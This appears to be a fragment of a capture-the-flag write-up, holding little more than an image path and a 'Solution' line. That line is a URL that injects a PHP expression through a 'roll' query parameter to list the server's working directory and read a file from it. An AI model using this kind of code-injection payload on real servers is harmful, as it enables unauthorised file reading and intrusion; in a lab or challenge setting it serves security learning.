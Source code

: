 ### Solution
view-source:http://192.46.227.32/?roll=readfile(next(array_reverse(scandir(getcwd())))).a
###
